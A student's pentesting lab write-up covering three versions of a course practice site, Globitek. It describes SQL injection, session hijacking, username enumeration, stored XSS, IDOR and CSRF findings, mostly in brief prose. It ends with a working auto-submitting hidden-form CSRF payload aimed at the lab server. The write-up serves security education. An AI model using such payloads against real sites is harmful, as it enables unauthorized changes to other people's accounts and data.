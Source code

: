 # Project 8 - Pentesting Live Targets

Time spent: **7** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1:  You are able to add in code like a sleep in the url as shown in the GIF. 
<img src='https://i.imgur.com/xgbOLlz.gif' title='Gif Walkthrough' width='' alt='Gif Walkthrough' />



Vulnerability #2: Here you can see I am logged in on the left in chrome but on the right in IE I am not logged in. I can take the session from chrome and paste it in IE and now I am logged in on IE.
<img src='https://i.imgur.com/p1O0gfl.gif' title='Gif Walkthrough' width='' alt='Gif Walkthrough' />


## Green

Vulnerability #1: You can see when I try to log in with "fakeuser" the error text is not bold but when I log in with "jmonroe99" it is bold showing that it is a valid username. The other sites always show the same font. 
<img src='https://i.imgur.com/phkLb61.gif' title='Gif Walkthrough' width='' alt='Gif Walkthrough' />

Vulnerability #2: To get the script to run you need to make feedback as a non-logged in person that has the script as the actual feedback test. Then when an admin logs in and checks the feedback the script will run! 
<img src='https://i.imgur.com/lJTmfQY.gif' title='Gif Walkthrough' width='' alt='Gif Walkthrough' />


## Red

Vulnerability #1: This is the  Insecure Direct Object Reference vulnerability. You can see in the gif that as a not logged in user we are able to see the new salesperson who is not supposed to be public by just changing the ID. 
<img src='https://i.imgur.com/pyMEaNN.gif' title='Gif Walkthrough' width='' alt='Gif Walkthrough' />


Vulnerability #2: Here you can create a small form that will load and edit the sales people. See that I added myself as a sales person.  The code I used is below 
<img src='https://i.imgur.com/vhc9DUc.gif' title='Gif Walkthrough' width='' alt='Gif Walkthrough' />


````

<html>
  <head>
    <title>Edit Salespeople</title>
  </head>
  <body onload="document.edit_salesperson.submit()">
    <form action="https://35.184.87.12/red/public/staff/salespeople/edit.php?id=5" method="POST" name="edit_salesperson" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="Jason"><br>
      <input type="text" name="last_name" value="Merewitz"><br>
      <input type="text" name="phone" value="123-456-1337"><br>
      <input type="text" name="email" value="sales@person.com"><br>
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>

````
## Notes

